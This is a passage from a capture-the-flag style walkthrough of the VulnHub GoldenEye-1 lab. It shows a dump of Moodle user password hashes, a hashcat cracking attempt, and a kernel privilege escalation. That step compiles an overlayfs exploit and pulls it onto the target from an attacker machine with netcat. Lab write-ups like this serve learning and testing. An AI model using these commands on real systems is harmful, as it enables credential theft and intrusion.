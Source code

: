 	moodle=> \c moodle
	SSL connection (cipher: DHE-RSA-AES256-GCM-SHA384, bits: 256)
	You are now connected to database "moodle" as user "moodle".
	
	moodle=> SELECT username, password FROM mdl_user;
	 guest    | aca21c6dbd0538a171ff16550b873d70
	 boris    | efaf365b88dee2fc2029ff20674658a7
	 natalya  | 7a442035ba13c5d22e1e163e2117eb0d
	 xenia    | 116672a0e281b6aa277ef78f53a5f6f9
	 dr_doak  | 488e0292fac2386d877e80f2e3a203bf
	 admin    | de51800b0404d41fcb51203f1e3e524a
	```
4. Crack hashes
	```
	┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/loot/sql]
	└─# cut -d "|" -f2 sqlcreds | cut -d " " -f2 > hashes

	┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/loot/sql]
	└─# hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt  --show
	```
	- Failed to crack

	
## Root - Via Kernel Exploit
1. Linpeas
	![](images/Pasted%20image%2020220128164432.png)
2. Find exploit for `linux 3.13.0-32`

	| Exploit Title                                                                                                             | Path                  |
	| ------------------------------------------------------------------------------------------------------------------------- | --------------------- |
	| Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                      | linux/local/37292.c   |
	| Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow) | linux/local/37293.txt |
3. Use `linux/local/37292.c`
4. Since we do not have gcc on the target, we have to compile on our kali
	1. Compile `37292.c` on kali
		```
		┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/exploit/kerne1]
		└─# gcc -m64 37292.c -o exploit
		```
	2. Transfer to target
		```
		┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/exploit/kerne1]
		└─# nc -nvlp 4444 < exploit 
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		
		www-data@ubuntu:/tmp/kernel_exploit$ nc 192.168.236.4 4444 > exploit
		```
	3. Run exploit on target
		```
		www-data@ubuntu:/tmp/kernel_exploit$ ./exploit
		spawning threads
		mount #1
		mount #2
		child threads done
		/etc/ld.so.preload created
		creating shared library
		sh: 1: gcc: not found
		couldn't create dynamic library
		www-data@ubuntu:/tmp/kernel_exploit$ 
		```
		- `/etc/ld.so.preload` is created on target
